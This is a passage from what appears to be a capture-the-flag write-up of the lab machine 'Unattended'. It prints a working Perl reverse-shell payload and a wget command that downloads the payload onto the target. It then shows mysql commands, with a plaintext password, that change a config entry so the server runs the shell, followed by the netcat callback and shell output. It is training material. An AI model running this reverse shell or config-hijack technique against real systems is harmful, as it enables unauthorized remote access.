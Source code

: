 I use the standard perl reverse shell payload, then drop it into `/var/lib/php/sessions` since it's the only directory in the main executable partition I have write access to:

```perl
use Socket;$i="10.10.14.23";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

```
wget http://10.10.14.23:443/shell.pl -O /var/lib/php/sessions/shell.pl
--2019-04-14 22:25:39--  http://10.10.14.23:443/shell.pl
Connecting to 10.10.14.23:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 209 [text/x-perl]
Saving to: '/var/lib/php/sessions/shell.pl'
```

Then I update the database configuration to point to the new script:

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "update config set option_value = '/usr/bin/perl /var/lib/php/sessions/shell.pl;' where id='86'" neddy
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "select * from config where id='86'" neddy
id	option_name	option_value
86	checkrelease	/usr/bin/perl /var/lib/php/sessions/shell.pl;
```

After a minute or two I get a connection back:

```
root@ragingunicorn:~/htb/unattended# nc -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.126.
Ncat: Connection from 10.10.10.126:47400.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)

$ cat user.txt
9b413f...
```

IPv6 is configured on this server so I will run an nmap scan against the IPv6 address to see if I can find any other open port.

```
$ ip a
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b2:7b:c2 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.126/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb2:7bc2/64 scope global mngtmpaddr dynamic
       valid_lft 86215sec preferred_lft 14215sec
    inet6 fe80::250:56ff:feb2:7bc2/64 scope link
       valid_lft forever preferred_lft forever
```
